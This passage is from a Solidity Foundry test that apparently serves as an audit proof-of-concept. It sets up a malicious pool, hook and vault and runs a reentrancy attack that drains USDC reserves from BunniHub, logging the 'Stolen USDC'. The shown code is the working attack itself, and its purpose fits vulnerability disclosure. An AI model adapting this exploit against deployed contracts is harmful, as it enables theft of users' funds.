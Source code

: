```solidity
            targetRawTokenRatio1: 0,        // set to 0% to trigger a deposit upon transferring 1 token
            maxRawTokenRatio1: 0,           // set to 0% to trigger a deposit upon transferring 1 token
            sqrtPriceX96: TickMath.getSqrtPriceAtTick(4),
            name: bytes32("MaliciousBunniToken"),
            symbol: bytes32("BAD-BUNNI-LP"),
            owner: address(this),
            metadataURI: "metadataURI",
            salt: bytes32(keccak256("malicious"))
        })
    );

    // 4. Make a deposit to the malicious pool to have accounted some reserves of vault0 and initiate attack
    uint256 initialToken0Deposit = 10_000e6; // Using a big amount in order to not execute too many reentrancy iterations, but it works with whatever amount
    deal(address(token0), address(this), initialToken0Deposit);
    deal(address(token1), address(this), initialToken0Deposit);
    token0.approve(customHook, initialToken0Deposit);
    token1.approve(customHook, initialToken0Deposit);
    CustomHook(payable(customHook)).depositInitialReserves(
        address(token0), initialToken0Deposit, address(hub), poolManager, maliciousKey, true
    );
    CustomHook(payable(customHook)).mintERC6909(address(token1), initialToken0Deposit);

    console.log(
        "BunniHub token0 raw balance before",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token0)).toId())
    );
    console.log("BunniHub token0 vault reserve before", ERC4626(USDCVault).balanceOf(address(hub)));
    console.log(
        "MaliciousHook token0 balance before",
        poolManager.balanceOf(customHook, Currency.wrap(address(token0)).toId())
    );
    maliciousVault.setupAttack();
    CustomHook(payable(customHook)).initiateAttack(
        IBunniHub(address(hub)),
        maliciousKey,
        USDCVault,
        initialToken0Deposit,
        Vector.HOOK_HANDLE_SWAP,
        20
    );
    console.log(
        "BunniHub token0 raw balance after",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token0)).toId())
    );
    console.log("BunniHub token0 vault reserve after", ERC4626(USDCVault).balanceOf(address(hub)));
    console.log(
        "MaliciousHook token0 balance after",
        poolManager.balanceOf(customHook, Currency.wrap(address(token0)).toId())
    );
    console.log(
        "Stolen USDC",
        poolManager.balanceOf(customHook, Currency.wrap(address(token0)).toId()) - initialToken0Deposit
    );
}
```
